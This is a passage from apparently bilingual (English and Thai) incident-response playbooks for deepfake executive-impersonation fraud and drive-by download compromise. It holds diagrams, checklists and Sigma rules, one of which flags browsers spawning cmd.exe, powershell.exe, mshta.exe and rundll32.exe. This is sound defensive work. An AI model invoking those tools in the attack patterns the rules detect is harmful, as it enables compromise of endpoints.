    style DF fill:#660000,color:#fff
    style VoiceBEC fill:#cc0000,color:#fff
    style VideoBEC fill:#cc0000,color:#fff
```

### Real-World Deepfake Cases

```mermaid
graph TD
    subgraph "Notable Cases"
        C1["Arup Engineering 2024\n$25M deepfake video call\nMultiple fake executives"]
        C2["UAE Bank 2021\n$35M voice deepfake\nFake director call"]
        C3["UK Energy Co 2019\n$243K voice deepfake\nFake CEO phone call"]
    end
    style C1 fill:#cc0000,color:#fff
    style C2 fill:#cc0000,color:#fff
    style C3 fill:#ff6600,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspected Deepfake"] --> Type{"Communication type?"}
    Type -->|"Video call"| Video["Video call with 'executive'\nRequesting unusual action"]
    Type -->|"Voice call"| Voice["Phone call sounding\nlike known person"]
    Type -->|"Voice message"| VM["Voice message from\n'executive' with request"]
    Video --> Verify["🔴 STOP — Do NOT comply\nVerify via separate channel"]
    Voice --> Verify
    VM --> Verify
    Verify --> Method{"Verification method"}
    Method --> CallBack["📞 Call back on known number"]
    Method --> InPerson["👤 Walk to their office"]
    Method --> Slack["💬 Message on verified platform"]
    CallBack --> Result{"Confirmed real?"}
    InPerson --> Result
    Slack --> Result
    Result -->|"No — Deepfake!"| IR["🔴 Report to IR immediately"]
    Result -->|"Yes — Legitimate"| Proceed["Proceed with standard approval"]
    style Alert fill:#ff6600,color:#fff
    style IR fill:#cc0000,color:#fff
```

### Deepfake Detection Indicators

```mermaid
graph TD
    subgraph "🔴 Video Deepfake Tells"
        V1["Lip sync slightly off"]
        V2["Unnatural blinking"]
        V3["Lighting inconsistencies"]
        V4["Edge artifacts around face"]
        V5["Unable to turn head sideways"]
        V6["Request to NOT record call"]
    end
    subgraph "🔴 Audio Deepfake Tells"
        A1["Slight robotic quality"]
        A2["Unusual pauses/cadence"]
        A3["Background noise inconsistency"]
        A4["Cannot handle interruptions"]
        A5["Avoids side conversations"]
    end
    style V1 fill:#ff6600,color:#fff
    style V6 fill:#cc0000,color:#fff
    style A4 fill:#cc0000,color:#fff
```

### Verification Protocol

```mermaid
sequenceDiagram
    participant Attacker as Deepfake Call
    participant Employee
    participant SOC
    participant Executive as Real Executive
    participant Finance

    Attacker->>Employee: 🎭 "This is [CEO]. Wire $2M immediately"
    Employee->>Employee: ⚠️ Unusual request — trigger protocol
    Employee->>Executive: 📞 Call CEO on verified number
    Executive->>Employee: "I never made that call!"
    Employee->>SOC: 🚨 Report deepfake attempt
    SOC->>Finance: HOLD all pending wire transfers
    SOC->>SOC: Preserve call recording/logs
    SOC->>SOC: Investigation — source of voice sample
```

### Financial Impact Assessment

```mermaid
graph TD
    Impact["Deepfake Impact Assessment"] --> Detected{"Detected before action?"}
    Detected -->|"Yes — Blocked"| Low["🟢 No Financial Loss\nAwareness training trigger"]
    Detected -->|"No — Action taken"| Action{"What was done?"}
    Action -->|"Wire sent"| Wire["🔴 Contact bank IMMEDIATELY\nRecall wire within 24h"]
    Action -->|"Credentials shared"| Creds["🟠 Reset creds + audit\nCheck for access"]
    Action -->|"Data disclosed"| Data["🟡 Assess data sensitivity\nPDPA notification?"]
    Wire --> Recovery{"Within recall window?"}
    Recovery -->|"Yes ≤ 24h"| Recall["Bank recall possible"]
    Recovery -->|"No > 24h"| Lost["💀 Funds likely unrecoverable"]
    style Lost fill:#660000,color:#fff
    style Wire fill:#cc0000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Deepfake Social Engineering Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Employee reports        :a1, 00:00, 5min
        Verify with real person :a2, after a1, 10min
    section Containment
        Hold pending actions    :a3, after a2, 5min
        Alert all departments   :a4, after a3, 15min
    section Investigation
        Preserve evidence       :a5, after a4, 30min
        Source analysis         :a6, after a5, 60min
    section Response
        Financial recovery      :a7, after a6, 120min
        Org-wide awareness      :a8, after a7, 60min
```

---

## 1. Immediate Actions (First 10 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | **STOP** — do NOT comply with any request | Employee |
| 2 | Verify identity via separate, known channel | Employee |
| 3 | If deepfake confirmed — report to SOC immediately | Employee |
| 4 | Hold ALL pending financial transactions | Finance |
| 5 | Preserve call logs, recordings, chat history | SOC |
| 6 | Alert leadership about ongoing deepfake campaign | SOC Manager |

## 2. Investigation Checklist

### Communication Analysis
- [ ] What platform was the call/message received on?
- [ ] Is there a recording of the deepfake call?
- [ ] What specific requests were made?
- [ ] Were any links or files shared?
- [ ] Was the caller's number spoofed?

### Damage Assessment
- [ ] Were any financial transactions approved?
- [ ] Were credentials or sensitive data shared?
- [ ] Were any systems accessed as a result?
- [ ] Were other employees targeted simultaneously?

### Source Investigation
- [ ] Where could the attacker have obtained voice/video samples?
- [ ] Public speeches, interviews, social media?
- [ ] Previous recorded meetings or webinars?
- [ ] Is this part of a broader campaign?

## 3. Containment

| Scope | Action |
|:---|:---|
| **Financial** | Freeze all pending transactions |
| **Communications** | Warn all employees of active campaign |
| **Credentials** | Reset if any were shared |
| **Platform** | Report deepfake to platform provider |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| Was the deepfake detected before action? | [Yes/No] |
| What was the financial impact? | [$Amount] |
| Were dual authorization controls in place? | [Status] |
| Is employee deepfake awareness training in place? | [Status] |

## 6. Detection Rules

> Note: Deepfake detection is primarily procedural — verify via separate channels for any unusual requests.

```yaml
title: Unusual Wire Transfer Request After Video Call
logsource:
    product: email
detection:
    selection:
        subject|contains:
            - 'wire transfer'
            - 'urgent payment'
            - 'confidential transaction'
        sender_domain|external: true
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [BEC Playbook](BEC.en.md)
- [Phishing Playbook](Phishing.en.md)

## References
- [FBI — Business Email Compromise](https://www.ic3.gov/Media/Y2023/PSA230609)
- [MITRE T1598 — Phishing for Information](https://attack.mitre.org/techniques/T1598/)


---

## File: 05_Incident_Response/Playbooks/Deepfake_Social_Engineering.th.md

# Playbook: การตอบสนอง Deepfake Social Engineering

**ID**: PB-48
**ความรุนแรง**: วิกฤต | **ประเภท**: Social Engineering / Fraud
**MITRE ATT&CK**: [T1598](https://attack.mitre.org/techniques/T1598/) (Phishing for Information), [T1204.001](https://attack.mitre.org/techniques/T1204/001/) (Malicious Link)
**Trigger**: พนักงานรายงาน (video/voice call ผิดปกติจาก "ผู้บริหาร"), คำขอ wire transfer ผิดปกติผ่าน video call, ข้อความเสียง AI ขอ credentials

> ⚠️ **วิกฤต**: เทคโนโลยี Deepfake สามารถโคลนเสียงด้วยเสียงเพียง 3 วินาที และสร้างวิดีโอที่น่าเชื่อถือแบบ real-time การปลอมเป็นผู้บริหารผ่าน deepfake ทำให้เกิดความเสียหายหลายล้านดอลลาร์

### Deepfake Attack Taxonomy

```mermaid
graph TD
    DF["🎭 Deepfake Attacks"] --> Voice["Voice Deepfake\nโคลนเสียงผู้บริหาร"]
    DF --> Video["Video Deepfake\nVideo call ปลอม"]
    DF --> Text["AI Text Generation\nเลียนแบบสไตล์การเขียน"]
    
    Voice --> VoiceBEC["CEO โทรหา CFO\n'โอน 25 ล้าน'"]
    Voice --> VoiceVish["Fake IT support\n'reset password ของคุณ'"]
    
    Video --> VideoBEC["Live video call\n'อนุมัติ transfer นี้'"]
    Video --> VideoID["ปลอม identity\nbypass KYC"]
    
    Text --> TextBEC["Executive email\nstyle match สมบูรณ์"]
    Text --> TextPhish["Phishing เฉพาะบุคคล\nAI สร้าง lures"]
    
    style DF fill:#660000,color:#fff
    style VoiceBEC fill:#cc0000,color:#fff
    style VideoBEC fill:#cc0000,color:#fff
```

### กรณี Deepfake ที่เกิดขึ้นจริง

```mermaid
graph TD
    subgraph "กรณีตัวอย่าง"
        C1["Arup Engineering 2024\n$25M deepfake video call\nผู้บริหารปลอมหลายคน"]
        C2["UAE Bank 2021\n$35M voice deepfake\nFake director call"]
        C3["UK Energy Co 2019\n$243K voice deepfake\nFake CEO phone call"]
    end
    style C1 fill:#cc0000,color:#fff
    style C2 fill:#cc0000,color:#fff
    style C3 fill:#ff6600,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 สงสัย Deepfake"] --> Type{"ประเภทการสื่อสาร?"}
    Type -->|"Video call"| Video["Video call กับ 'ผู้บริหาร'\nขอดำเนินการผิดปกติ"]
    Type -->|"Voice call"| Voice["โทรศัพท์เสียงเหมือน\nบุคคลที่รู้จัก"]
    Type -->|"Voice message"| VM["ข้อความเสียงจาก\n'ผู้บริหาร' พร้อมคำขอ"]
    Video --> Verify["🔴 หยุด — อย่าทำตาม\nยืนยันผ่านช่องทางอื่น"]
    Voice --> Verify
    VM --> Verify
    Verify --> Method{"วิธียืนยัน"}
    Method --> CallBack["📞 โทรกลับหมายเลขที่รู้จัก"]
    Method --> InPerson["👤 เดินไปหาที่ออฟฟิศ"]
    Method --> Slack["💬 Message ผ่าน platform ที่ยืนยัน"]
    CallBack --> Result{"ยืนยันเป็นของจริง?"}
    InPerson --> Result
    Slack --> Result
    Result -->|"ไม่ — Deepfake!"| IR["🔴 รายงาน IR ทันที"]
    Result -->|"ใช่ — ถูกต้อง"| Proceed["ดำเนินการตามขั้นตอนปกติ"]
    style Alert fill:#ff6600,color:#fff
    style IR fill:#cc0000,color:#fff
```

### ตัวบ่งชี้ Deepfake

```mermaid
graph TD
    subgraph "🔴 สัญญาณ Video Deepfake"
        V1["Lip sync ไม่ตรงเล็กน้อย"]
        V2["กะพริบตาไม่ธรรมชาติ"]
        V3["แสงไฟไม่สอดคล้อง"]
        V4["Artifacts รอบใบหน้า"]
        V5["หมุนหัวด้านข้างไม่ได้"]
        V6["ขอไม่ให้บันทึกสาย"]
    end
    subgraph "🔴 สัญญาณ Audio Deepfake"
        A1["เสียงมีคุณภาพ robotic เล็กน้อย"]
        A2["หยุดพูด/จังหวะผิดปกติ"]
        A3["เสียงรบกวนพื้นหลังไม่สอดคล้อง"]
        A4["จัดการกับการขัดจังหวะไม่ได้"]
        A5["หลีกเลี่ยงการสนทนาด้านข้าง"]
    end
    style V1 fill:#ff6600,color:#fff
    style V6 fill:#cc0000,color:#fff
    style A4 fill:#cc0000,color:#fff
```

### ขั้นตอนการยืนยัน

```mermaid
sequenceDiagram
    participant Attacker as Deepfake Call
    participant Employee as พนักงาน
    participant SOC
    participant Executive as ผู้บริหารจริง
    participant Finance as การเงิน

    Attacker->>Employee: 🎭 "นี่ [CEO] โอน 2 ล้าน ด่วน"
    Employee->>Employee: ⚠️ คำขอผิดปกติ — เริ่ม protocol
    Employee->>Executive: 📞 โทรหา CEO หมายเลขที่ยืนยัน
    Executive->>Employee: "ผมไม่ได้โทรหาคุณ!"
    Employee->>SOC: 🚨 รายงาน deepfake attempt
    SOC->>Finance: ระงับ wire transfers ที่รอดำเนินการทั้งหมด
    SOC->>SOC: เก็บ call recording/logs
    SOC->>SOC: สืบสวน — แหล่งที่มาของ voice sample
```

### การประเมินผลกระทบทางเงิน

```mermaid
graph TD
    Impact["ประเมินผลกระทบ Deepfake"] --> Detected{"ตรวจจับก่อนดำเนินการ?"}
    Detected -->|"ใช่ — ถูก Block"| Low["🟢 ไม่มีสูญเสียเงิน\nTrigger awareness training"]
    Detected -->|"ไม่ — ดำเนินการแล้ว"| Action{"ทำอะไรไป?"}
    Action -->|"โอนเงินแล้ว"| Wire["🔴 ติดต่อธนาคารทันที\nRecall wire ภายใน 24 ชม."]
    Action -->|"แบ่งปัน credentials"| Creds["🟠 Reset creds + audit\nตรวจการเข้าถึง"]
    Action -->|"เปิดเผยข้อมูล"| Data["🟡 ประเมินความสำคัญข้อมูล\nPDPA notification?"]
    Wire --> Recovery{"ภายใน recall window?"}
    Recovery -->|"ใช่ ≤ 24 ชม."| Recall["ธนาคาร recall ได้"]
    Recovery -->|"ไม่ > 24 ชม."| Lost["💀 เงินน่าจะกู้คืนไม่ได้"]
    style Lost fill:#660000,color:#fff
    style Wire fill:#cc0000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Deepfake Social Engineering Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        พนักงานรายงาน          :a1, 00:00, 5min
        ยืนยันกับบุคคลจริง     :a2, after a1, 10min
    section Containment
        ระงับ pending actions   :a3, after a2, 5min
        แจ้งทุกแผนก            :a4, after a3, 15min
    section Investigation
        เก็บหลักฐาน            :a5, after a4, 30min
        วิเคราะห์แหล่งที่มา    :a6, after a5, 60min
    section Response
        กู้คืนทางการเงิน       :a7, after a6, 120min
        Awareness ทั้งองค์กร    :a8, after a7, 60min
```

---

## 1. การดำเนินการทันที (10 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | **หยุด** — อย่าทำตามคำขอใดๆ | พนักงาน |
| 2 | ยืนยันตัวตนผ่านช่องทางอื่นที่รู้จัก | พนักงาน |
| 3 | ถ้ายืนยัน deepfake — รายงาน SOC ทันที | พนักงาน |
| 4 | ระงับ financial transactions ที่รอดำเนินการทั้งหมด | Finance |
| 5 | เก็บ call logs, recordings, chat history | SOC |
| 6 | แจ้งผู้บริหารเรื่อง deepfake campaign ที่กำลังดำเนินอยู่ | SOC Manager |

## 2. รายการตรวจสอบ

### วิเคราะห์การสื่อสาร
- [ ] รับ call/message บน platform ไหน?
- [ ] มี recording ของ deepfake call หรือไม่?
- [ ] มีคำขอเฉพาะอะไร?
- [ ] มี links หรือ files ที่แชร์หรือไม่?
- [ ] หมายเลขผู้โทรถูก spoof หรือไม่?

### ประเมินความเสียหาย
- [ ] มี financial transactions ที่อนุมัติหรือไม่?
- [ ] มี credentials หรือข้อมูลสำคัญที่แชร์หรือไม่?
- [ ] มีระบบใดถูกเข้าถึงเป็นผลหรือไม่?
- [ ] มีพนักงานอื่นที่ถูกเป้าหมายพร้อมกันหรือไม่?

### สืบสวนแหล่งที่มา
- [ ] ผู้โจมตีอาจได้ตัวอย่างเสียง/วิดีโอจากไหน?
- [ ] การพูดสาธารณะ, สัมภาษณ์, social media?
- [ ] การประชุมที่บันทึกหรือ webinars ก่อนหน้า?
- [ ] เป็นส่วนหนึ่งของ campaign ที่กว้างขึ้นหรือไม่?

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **การเงิน** | Freeze transactions ที่รอดำเนินการทั้งหมด |
| **การสื่อสาร** | เตือนพนักงานทั้งหมดเรื่อง campaign |
| **Credentials** | Reset ถ้ามีการแชร์ |
| **Platform** | รายงาน deepfake ไปยัง platform provider |

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Deepfake ถูกตรวจจับก่อนดำเนินการหรือไม่? | [ใช่/ไม่] |
| ผลกระทบทางการเงิน? | [$จำนวน] |
| มี dual authorization controls หรือไม่? | [สถานะ] |
| มี deepfake awareness training หรือไม่? | [สถานะ] |

## 6. Detection Rules

> หมายเหตุ: การตรวจจับ Deepfake เป็นขั้นตอนเป็นหลัก — ยืนยันผ่านช่องทางแยกสำหรับคำขอผิดปกติ

```yaml
title: Unusual Wire Transfer Request After Video Call
logsource:
    product: email
detection:
    selection:
        subject|contains:
            - 'wire transfer'
            - 'urgent payment'
            - 'ทำรายการลับ'
        sender_domain|external: true
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [BEC Playbook](BEC.th.md)
- [Phishing Playbook](Phishing.th.md)
- [Business Email Compromise Playbook](BEC.th.md)

## References
- [FBI — Business Email Compromise](https://www.ic3.gov/Media/Y2023/PSA230609)
- [MITRE T1598 — Phishing for Information](https://attack.mitre.org/techniques/T1598/)


---

## File: 05_Incident_Response/Playbooks/Drive_By_Download.en.md

# Playbook: Drive-By Download Response

**ID**: PB-44
**Severity**: High | **Category**: Initial Access / Execution
**MITRE ATT&CK**: [T1189](https://attack.mitre.org/techniques/T1189/) (Drive-by Compromise), [T1204.001](https://attack.mitre.org/techniques/T1204/001/) (Malicious Link)
**Trigger**: EDR (exploit execution after browsing), proxy/DNS (known malicious redirect), IDS (exploit kit traffic), user report (unexpected download/popup)

> ⚠️ **WARNING**: Drive-by downloads require NO user interaction — just visiting a compromised or malicious page is enough. Exploit kits profile the browser and silently deliver malware.

### Drive-By Download Attack Flow

```mermaid
graph LR
    A["1️⃣ Lure\nMalvertising / SEO"] --> B["2️⃣ Redirect\nTraffic Distribution"]
    B --> C["3️⃣ Exploit Kit\nLanding Page"]
    C --> D["4️⃣ Profiling\nBrowser/OS/Plugins"]
    D --> E["5️⃣ Exploit\nSilent execution"]
    E --> F["6️⃣ Payload\nMalware installed"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Exploit Kit Ecosystem

```mermaid
graph TD
    EK["🔴 Exploit Kits"] --> RIG["RIG EK\nStill active 2024"]
    EK --> Magnitude["Magnitude EK\nAsia-Pacific"]
    EK --> Fallout["Fallout EK\nGandCrab delivery"]
    EK --> Purple["PurpleFox EK\nSelf-propagating"]
    EK --> Bottle["Bottle EK\nJapan/Korea targeted"]
    
    RIG --> IE["Internet Explorer\nVBScript exploits"]
    RIG --> Flash["Adobe Flash\n(legacy systems)"]
    Magnitude --> Win["Windows\nElevation of privilege"]
    
    style EK fill:#cc0000,color:#fff
    style RIG fill:#ff4444,color:#fff
    style Magnitude fill:#ff4444,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Potential Drive-By Download"] --> Source{"Detection source?"}
    Source -->|"EDR"| EDR["Post-exploit process\nafter browser"]
    Source -->|"Proxy"| Proxy["Redirect to known EK\nor suspicious domain"]
    Source -->|"User report"| User["Unexpected download\nor popup window"]
    Source -->|"IDS"| IDS["Exploit kit traffic\npattern match"]
    EDR --> Isolate["🔴 Isolate endpoint\nPreserve memory"]
    Proxy --> Block["Block domain\nCheck who visited"]
    User --> Scan["Full endpoint scan\nCheck downloads folder"]
    IDS --> Analyze["Analyze PCAP\nExtract IOCs"]
    Isolate --> Payload{"Payload executed?"}
    Payload -->|Yes| Full["🔴 Full compromise assumed"]
    Payload -->|"No — Blocked"| Partial["🟡 Attempt blocked\nMonitor endpoint"]
    Full --> IR["IR investigation"]
    style Alert fill:#ff4444,color:#fff
    style Full fill:#660000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant Proxy as Proxy/DNS
    participant Sandbox
    participant IR as IR Team

    EDR->>SOC: 🚨 Browser spawned suspicious process
    SOC->>EDR: Full process tree + network connections
    SOC->>Proxy: Get URL chain (redirects)
    Proxy->>SOC: URL1 → URL2 → EK landing → payload
    SOC->>Sandbox: Submit payload for analysis
    Sandbox->>SOC: Malware family identified
    SOC->>IR: Confirmed drive-by — escalate
    IR->>Proxy: Block entire redirect chain
    IR->>EDR: Sweep endpoints for same payload hash
```

### Traffic Distribution System (TDS)

```mermaid
graph TD
    User["User browses web"] --> Ad["Malvertising\nor compromised site"]
    Ad --> TDS["Traffic Distribution\nSystem (TDS)"]
    TDS --> Check{"Target profile\nmatch?"}
    Check -->|"No match"| Clean["Redirect to\nlegitimate content"]
    Check -->|"Match: vulnerable\nbrowser/OS"| EK["Exploit Kit\nLanding Page"]
    EK --> Exploit["Silent exploit\nexecution"]
    Exploit --> C2["C2 beacon\n+ persistence"]
    style TDS fill:#ff6600,color:#fff
    style EK fill:#cc0000,color:#fff
    style C2 fill:#660000,color:#fff
```

### Browser Vulnerability Timeline

```mermaid
graph TD
    subgraph "Common Exploit Targets"
        T1["Internet Explorer\n(CVE-2021-26411)"]
        T2["Chrome V8\n(CVE-2023-2033)"]
        T3["Firefox\n(CVE-2024-9680)"]
        T4["Edge Chromium\n(shared Chrome CVEs)"]
        T5["WebKit/Safari\n(CVE-2023-42917)"]
    end
    subgraph "Plugin Targets (Legacy)"
        P1["Adobe Flash\n(Deprecated)"]
        P2["Java Applets\n(Rare)"]
        P3["Silverlight\n(Deprecated)"]
    end
    style T1 fill:#cc0000,color:#fff
    style T2 fill:#ff6600,color:#fff
    style P1 fill:#999,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Drive-By Download Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered         :a1, 00:00, 5min
        Verify exploitation     :a2, after a1, 10min
    section Containment
        Isolate endpoint        :a3, after a2, 5min
        Block redirect chain    :a4, after a3, 15min
    section Investigation
        Process tree analysis   :a5, after a4, 30min
        Sandbox payload         :a6, after a5, 30min
        Endpoint sweep          :a7, after a6, 60min
    section Recovery
        Reimage if needed       :a8, after a7, 120min
        Update browser/patches  :a9, after a8, 60min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Isolate affected endpoint via EDR | SOC T1 |
| 2 | Capture browser process tree and network connections | SOC T1 |
| 3 | Block the full redirect chain (all domains/IPs) | SOC T2 |
| 4 | Check proxy logs: other users who visited same URL | SOC T2 |
| 5 | Submit downloaded payload to sandbox | SOC T2 |
| 6 | Verify browser and plugin patch level | IT Team |

## 2. Investigation Checklist

### Browser/Endpoint Analysis
- [ ] Process tree: browser → child processes
- [ ] Downloaded files in temp/downloads folders
- [ ] Browser history: URL chain leading to exploit
- [ ] Network connections made post-exploitation
- [ ] New scheduled tasks, services, or registry changes
- [ ] Memory dump for exploit shellcode analysis

### Network/Proxy Analysis
- [ ] Full URL redirect chain from proxy logs
- [ ] DNS queries to suspicious domains
- [ ] Certificate information for HTTPS connections
- [ ] Check if URL is on threat intel blocklists
- [ ] Analyze JavaScript from the exploit kit landing page

### Scope Assessment
- [ ] How many users visited the same malicious URL?
- [ ] Were other endpoints also exploited?
- [ ] Is the source site a compromised legitimate site or purpose-built?
- [ ] Is this part of a malvertising campaign?

## 3. Containment

| Scope | Action |
|:---|:---|
| **Endpoint** | EDR isolation, preserve for forensics |
| **Network** | Block all domains/IPs in the redirect chain |
| **DNS** | Sinkhole exploit kit domains |
| **Proxy** | Add URL category block for exploit kits |
| **Browser** | Force-update to latest version |

## 4. Eradication & Recovery

1. Reimage endpoint if post-exploitation activity confirmed
2. Force browser updates across the organization
3. Disable legacy plugins (Flash, Java, Silverlight)
4. Deploy browser isolation for high-risk browsing
5. Update proxy/DNS blocklists with new IOCs

## 5. Post-Incident

| Question | Answer |
|:---|:---|
| What exploit was used (CVE)? | [CVE number] |
| Was the browser fully patched? | [Yes/No] |
| Were legacy plugins enabled? | [List] |
| How was user directed to the malicious site? | [Malvertising/link/redirect] |
| Is browser isolation deployed for risky categories? | [Status] |

## 6. Detection Rules (Sigma)

```yaml
title: Browser Spawning Suspicious Child Process
logsource:
    product: windows
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '\chrome.exe'
            - '\msedge.exe'
            - '\firefox.exe'
            - '\iexplore.exe'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\rundll32.exe'
            - '\mshta.exe'
    condition: selection_parent and selection_child
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Watering Hole Playbook](Watering_Hole.en.md)
- [Malware Infection Playbook](Malware_Infection.en.md)
- [Exploit Playbook](Exploit.en.md)
- [Web Attack Playbook](Web_Attack.en.md)

## References
- [MITRE T1189 — Drive-by Compromise](https://attack.mitre.org/techniques/T1189/)
- [Trend Micro — Exploit Kit Overview](https://www.trendmicro.com/vinfo/us/security/definition/exploit-kit)


---

## File: 05_Incident_Response/Playbooks/Drive_By_Download.th.md

# Playbook: การตอบสนอง Drive-By Download

**ID**: PB-44
**ความรุนแรง**: สูง | **ประเภท**: Initial Access / Execution
**MITRE ATT&CK**: [T1189](https://attack.mitre.org/techniques/T1189/) (Drive-by Compromise), [T1204.001](https://attack.mitre.org/techniques/T1204/001/) (Malicious Link)
**Trigger**: EDR (exploit execution หลังเข้าเว็บ), proxy/DNS (redirect ไปยัง domain อันตราย), IDS (exploit kit traffic), user รายงาน (download/popup ผิดปกติ)

> ⚠️ **คำเตือน**: Drive-by downloads ไม่ต้องอาศัยการมีส่วนร่วมของ user — แค่เข้าเว็บที่ถูก compromise ก็เพียงพอ Exploit kits สำรวจ browser และส่ง malware อย่างเงียบๆ

### Drive-By Download Attack Flow

```mermaid
graph LR
    A["1️⃣ ล่อ\nMalvertising / SEO"] --> B["2️⃣ Redirect\nTraffic Distribution"]
    B --> C["3️⃣ Exploit Kit\nLanding Page"]
    C --> D["4️⃣ สำรวจ\nBrowser/OS/Plugins"]
    D --> E["5️⃣ Exploit\nทำงานเงียบๆ"]
    E --> F["6️⃣ Payload\nMalware ติดตั้ง"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### ระบบนิเวศ Exploit Kit

```mermaid
graph TD
    EK["🔴 Exploit Kits"] --> RIG["RIG EK\nยังทำงานอยู่ 2024"]
    EK --> Magnitude["Magnitude EK\nAsia-Pacific"]
    EK --> Fallout["Fallout EK\nส่ง GandCrab"]
    EK --> Purple["PurpleFox EK\nแพร่กระจายเอง"]
    EK --> Bottle["Bottle EK\nมุ่งเป้า Japan/Korea"]
    
    RIG --> IE["Internet Explorer\nVBScript exploits"]
    RIG --> Flash["Adobe Flash\n(ระบบเก่า)"]
    Magnitude --> Win["Windows\nElevation of privilege"]
    
    style EK fill:#cc0000,color:#fff
    style RIG fill:#ff4444,color:#fff
    style Magnitude fill:#ff4444,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 อาจเป็น Drive-By Download"] --> Source{"แหล่งตรวจจับ?"}
    Source -->|"EDR"| EDR["Post-exploit process\nหลัง browser"]
    Source -->|"Proxy"| Proxy["Redirect ไปยัง EK\nหรือ domain ผิดปกติ"]
    Source -->|"User รายงาน"| User["Download ที่ไม่คาดคิด\nหรือ popup window"]
    Source -->|"IDS"| IDS["Exploit kit traffic\npattern match"]
    EDR --> Isolate["🔴 แยก endpoint\nเก็บ memory"]
    Proxy --> Block["Block domain\nตรวจใครเข้าเว็บ"]
    User --> Scan["สแกน endpoint เต็มรูป\nตรวจ downloads folder"]
    IDS --> Analyze["วิเคราะห์ PCAP\nดึง IOCs"]
    Isolate --> Payload{"Payload ทำงาน?"}
    Payload -->|ใช่| Full["🔴 สันนิษฐาน full compromise"]
    Payload -->|"ไม่ — ถูก block"| Partial["🟡 ความพยายามถูก block\nตรวจ endpoint"]
    Full --> IR["สืบสวน IR"]
    style Alert fill:#ff4444,color:#fff
    style Full fill:#660000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant Proxy as Proxy/DNS
    participant Sandbox
    participant IR as IR Team

    EDR->>SOC: 🚨 Browser สร้าง process ผิดปกติ
    SOC->>EDR: Process tree เต็ม + network connections
    SOC->>Proxy: ดึง URL chain (redirects)
    Proxy->>SOC: URL1 → URL2 → EK landing → payload
    SOC->>Sandbox: ส่ง payload เข้า sandbox
    Sandbox->>SOC: ระบุกลุ่ม malware
    SOC->>IR: ยืนยัน drive-by — escalate
    IR->>Proxy: Block redirect chain ทั้งหมด
    IR->>EDR: Sweep endpoints หา payload hash เดียวกัน
```

### Traffic Distribution System (TDS)

```mermaid
graph TD
    User["User ท่องเว็บ"] --> Ad["Malvertising\nหรือ เว็บที่ compromise"]
    Ad --> TDS["Traffic Distribution\nSystem (TDS)"]
    TDS --> Check{"Profile เป้าหมาย\nตรงกัน?"}
    Check -->|"ไม่ตรง"| Clean["Redirect ไปยัง\nเนื้อหาปกติ"]
    Check -->|"ตรง: browser/OS\nมีช่องโหว่"| EK["Exploit Kit\nLanding Page"]
    EK --> Exploit["Exploit ทำงาน\nอย่างเงียบๆ"]
    Exploit --> C2["C2 beacon\n+ persistence"]
    style TDS fill:#ff6600,color:#fff
    style EK fill:#cc0000,color:#fff
    style C2 fill:#660000,color:#fff
```

### เป้าหมายช่องโหว่ Browser

```mermaid
graph TD
    subgraph "เป้าหมาย Exploit ที่พบบ่อย"
        T1["Internet Explorer\n(CVE-2021-26411)"]
        T2["Chrome V8\n(CVE-2023-2033)"]
        T3["Firefox\n(CVE-2024-9680)"]
        T4["Edge Chromium\n(shared Chrome CVEs)"]
        T5["WebKit/Safari\n(CVE-2023-42917)"]
    end
    subgraph "Plugin เป้าหมาย (Legacy)"
        P1["Adobe Flash\n(Deprecated)"]
        P2["Java Applets\n(หายาก)"]
        P3["Silverlight\n(Deprecated)"]
    end
    style T1 fill:#cc0000,color:#fff
    style T2 fill:#ff6600,color:#fff
    style P1 fill:#999,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Drive-By Download Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered         :a1, 00:00, 5min
        ยืนยัน exploitation     :a2, after a1, 10min
    section Containment
        แยก endpoint            :a3, after a2, 5min
        Block redirect chain    :a4, after a3, 15min
    section Investigation
        วิเคราะห์ process tree  :a5, after a4, 30min
        Sandbox payload         :a6, after a5, 30min
        Sweep endpoints         :a7, after a6, 60min
    section Recovery
        Reimage ถ้าจำเป็น       :a8, after a7, 120min
        อัปเดต browser/patches  :a9, after a8, 60min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | แยก endpoint ผ่าน EDR | SOC T1 |
| 2 | เก็บ browser process tree และ network connections | SOC T1 |
| 3 | Block redirect chain ทั้งหมด (ทุก domains/IPs) | SOC T2 |
